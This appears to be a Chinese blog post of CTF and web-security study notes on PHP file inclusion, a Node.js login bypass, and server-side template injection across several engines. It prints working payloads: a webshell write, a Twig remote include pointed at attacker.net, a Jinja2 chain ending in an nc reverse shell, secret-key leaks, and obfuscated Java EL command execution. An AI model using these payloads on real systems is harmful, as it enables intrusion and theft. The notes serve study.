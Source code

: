 ```yaml
---
layout:	post
title:	Web安全总结周报
date: 2020-10-25
author: waynehao
---
```


# Web技术周报
## TSCTF-j
1.php源码审计(考点利用 **$$** 变量覆盖，MD5强等于利用数组绕过，`include()`文件包含漏洞)
这里对文件包含漏洞进行一下扩展
```
    include() include_once() require() require_once()
```
首先，利用这四个函数包含文件，都会直接作为php文件进行解析。`include()`如果报错，会执行后续语句，`require()`报错则直接退出。

php伪协议 

`php://input` 要求`allow_url_include=On`，可读取没有处理的POST数据，(可执行上传的php指令)
`php://filter`读文件`php://filter/(read=)convert.base64-encode/resource=index.php`
`phar:// zip://`可理解为读取压缩包中的文件并执行

参考链接 <https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/>

 ## 2020 TSCTF
1. EasyNodejs
强行设置传入对象的属性进行覆盖。
exp
```
sess = requests.Session()
print(sess.post(url + '/login',json={"usernames": [{"length":0,"1":"admin"}] })。text)
print(sess.get(url + '/getflag').text)
```
[src_code](./code/TSCTF/EasyNodejs/app.js)

 ## 2018 HXB
2. HXB Xmeo

>这题我没找到复现代码，记录下 [作者的思路](https://www.anquanke.com/post/id/220436)


  ### 非预期解知识点SSTI    SSTI
  SSTI服务器模板注入。MVC模式，即Model，View，Controller三者，其中V中用了大量的模板技术。凡是使用模板的地方都可能出现SSTI问题，其不属于任何一种语言，沙盒绕过同理。

 ### 常见的模板引擎
 PHP：Smarty，Twig，Blade
 
 JAVA：JSP，FreeMarker，Velocity

 Python：FLASK-Jinja2，Django，Tornado

 ### SSTI产生
    
 服务器接收用户恶意输入，模板引擎进行拼接时执行了破坏语句。

### PHP

 ```
 <?php
...
$output = $twig->render("Hello {$_GET[‘name‘]}");  
echo $output;
 ```
 这里的{}只是区分变量和字符串常量，当输入{{xxx}}，模板引擎即可解析。

 ### Python
 ```
@app.errorhandler(404)
def page_not_found(e):
    template = '''{%% extends "layout.html" %%}
{%% block body %%}
    <div class="center-content error">
        <h1>Oops! That page doesn't exist.</h1>
        <h3>%s</h3>
    </div>
{%% endblock %%}
''' % (request.url)
    return render_template_string(template), 404
 ```
当url为{{xxx}}，即可解析。

### JAVA
 同理，[参考](https://paper.seebug.org/70)
 
 ### 攻击方法

 利用模板特性：
 1. Smarty

    在模板中无法直接调用php中直接执行命令的函数。但可以用self的方法：
    ```
    读文件 {self::getStreamVariable("file:///proc/self/loginuid")}
    写文件{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
    ```
2.Twig
    
无法使用静态方法，不能使用self::调用静态变量。可用_self的env对象。即通过讲缓存位置设置为远程服务器引入远程文件包含。

```
{{_self.env.setCache("ftp://attacker.net:2121")}}
{{_self.env.loadTemplate("backdoor")}}
```
如果allow_url_include关了，可以参考getFilter执行任意命令。
```
{{_self.env.registerUndefinedFilterCallback("exec")}}
{{_self.env.getFilter("id")}}
```
3.freeMarker(没看懂原理)

`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }`

利用框架特性攻击

1.Django
```
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```
如果能力被限制，无法直接执行命令，如何获取和User相关的配置信息？
>django数据库关系复杂，可通过自带属性之间的关系挖掘敏感信息。

如，django自带的admin应用的models.py导入了当前网站的配置文件。即可通过某种方式，找到Django默认应用admin的model，再通过model获取settings对象，进而获取数据库帐号密码等信息。
```
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```
2.Flask-jinja2

config 是Flask模版中的一个全局对象，它代表“当前配置对象(flask.config)”，它是一个类字典的对象，它包含了所有应用程序的配置值。在大多数情况下，它包含了比如数据库链接字符串，连接到第三方的凭证，SECRET_KEY等敏感值。

比如，可用from_pyfile去读
```
from os import system
SHELL = system
```
当调用config['SHELL']即可调用system。而文件的写入，需要绕过jinja2的沙盒写入想要的文件。
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil', 'w').write('from os import system%0aSHELL = system') }}//写文件
{{ config.from_pyfile('/tmp/evil') }}//加载system
{{ config['SHELL']('nc xxxx xx -e /bin/sh') }}//执行命令反弹SHELL
```
3.Tornado

强网杯SSTI获取cookie_secret，但过滤了`"%'()*-/=[\]_|`，由于过滤了`_`，因此无法通过python的魔法方法进行沙盒逃逸执行命令，并且对寻找合适的tornado内置方法也有很多限制。

通过直接下载tornado的框架源码，全局搜索cookie_secret，发现其是handler.application.settings的键值，因此获得handler对象即可。（查询模板对框架的语法支持，即模板中内置对象等同于框架中哪些对象），handler对象对应RequestHandler，而
```
RequestHandler.settings是self.application.settings别名。
```
因此直接通过handler.settings可访问到cookie_secret
```
http://117.78.26.79:31093/error?msg={{handler.settings}}
```
利用模板语言本身

1.Python

模板增加了沙盒机制，很难执行想要的函数，需要用自省的机制绕过沙盒。


# 累了
[python沙盒](https://www.k0rz3n.com/2018/05/04/Python%20%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8%E5%A4%87%E5%BF%98/)

2.Java

payload1:
```
${T(java.lang.System).getenv()}
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}
```
文件操作payload2:
```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
>T() 是 EL 的语法规定

## 预期解XSS
